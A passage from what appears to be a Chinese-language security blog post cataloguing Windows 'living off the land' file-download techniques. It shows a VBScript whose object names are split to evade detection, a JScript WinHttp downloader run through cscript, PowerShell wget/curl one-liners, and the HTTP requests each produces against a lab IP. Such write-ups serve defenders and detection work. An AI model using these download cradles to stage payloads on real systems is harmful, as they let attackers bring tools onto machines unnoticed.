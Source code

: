 ***Note***
*虽然可以下载成功, 但是执行的时候, 会报 `客户端配置文件无效`, 挖坑*

### 10. Cscript

```vba
set a=createobject("adod"+"b.stream"):set w=createobject("micro"+"soft.xmlhttp"):w.open"get",wsh.arguments( 0),0:w.send:
a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2
```

```powershell
cscript downfile.vbs http://192.168.220.125/white_process/test test.txt
```

[***pcap***]({{site.url}}/assets/Living_Off_The_Land/pcap/cscript.pcap)

```http
GET /white_process/test HTTP/1.1
Accept: */*
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/7.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0E; .NET4.0C)
Host: 192.168.220.125
Connection: Keep-Alive
```

### 11. JS

```js
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
WScript.Echo(WinHttpReq.ResponseText);
```

```powershell
cscript /nologo downfile.js http://192.168.220.125/white_process/test.msi
```

[***pcap***]({{site.url}}/assets/Living_Off_The_Land/pcap/js.pcap)

```http
GET /white_process/test.msi HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
Host: 192.168.220.125
```

### 12. Powershell-wget/curl

较新版本powershell中, 添加了 curl/wget 的实现, 但是两者所用ua仍为 powershell

```powershell
powershell /c wget http://xxxxxx.xxxx.xx
powershell /c curl http://xxxxxx.xxxx.xx
```
